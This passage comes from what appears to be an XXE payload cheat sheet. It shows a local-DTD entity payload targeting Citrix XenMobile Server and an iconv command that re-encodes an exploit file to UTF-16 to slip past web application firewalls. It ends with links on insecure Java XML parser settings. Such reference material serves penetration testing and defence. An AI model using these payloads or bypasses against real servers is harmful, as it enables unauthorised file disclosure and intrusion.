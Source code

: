 ```
%local_dtd;
```
### Citrix XenMobile Server
```
<!ENTITY % local_dtd SYSTEM "jar:file:///opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd">
<!ENTITY % Body '>Your DTD code<!ENTITY test "test"'>
%local_dtd;
```
[Other payloads using different DTDs](https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md)


## WAF Bypasses 

### Bypass via character encoding

XML parsers uses 4 methods to detect encoding:
* HTTP Content Type: `Content-Type: text/xml; charset=utf-8`
* Reading Byte Order Mark (BOM)
* Reading first symbols of document 
    * UTF-8 (3C 3F 78 6D)
    * UTF-16BE (00 3C 00 3F)
    * UTF-16LE (3C 00 3F 00)
* XML declaration: `<?xml version="1.0" encoding="UTF-8"?>`

| Encoding | BOM      | Example                             |              |
|----------|----------|-------------------------------------|--------------|
| UTF-8    | EF BB BF | EF BB BF 3C 3F 78 6D 6C             | ...<?xml     |
| UTF-16BE | FE FF    | FE FF 00 3C 00 3F 00 78 00 6D 00 6C | ...<.?.x.m.l |
| UTF-16LE | FF FE    | FF FE 3C 00 3F 00 78 00 6D 00 6C 00 | ..<.?.x.m.l. |

**Example**: We can convert the payload to `UTF-16` using [iconv](https://man7.org/linux/man-pages/man1/iconv.1.html) to bypass some WAF:

```bash
cat utf8exploit.xml | iconv -f UTF-8 -t UTF-16BE > utf16exploit.xml
```

## XXE in Java

Unsecure configuration in 10 different Java classes from three XML processing interfaces (DOM, SAX, StAX) that can lead to XXE:

![XXE Java security features overview infographics](https://semgrep.dev/docs/assets/images/cheat-sheets-xxe-java-infographics-1d1d5016802e3ab8f0886b62b8c81f21.png)

- [DocumentBuilderFactory (javax.xml.parsers.DocumentBuilderFactory)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3a-documentbuilderfactory)
- [SAXBuilder (org.jdom2.input.SAXBuilder)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3b-saxbuilder)
- [SAXParserFactory (javax.xml.parsers.SAXParserFactory)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3c-saxparserfactory)
- [SAXParser (javax.xml.parsers.SAXParser )](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3d-saxparser)
- [SAXReader (org.dom4j.io.SAXReader)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3e-saxreader)
- [TransformerFactory (javax.xml.transform.TransformerFactory) & SAXTransformerFactory (javax.xml.transform.sax.SAXTransformerFactory)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3f-transformerfactory--saxtransformerfactory)
- [SchemaFactory (javax.xml.validation.SchemaFactory)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3g-schemafactory)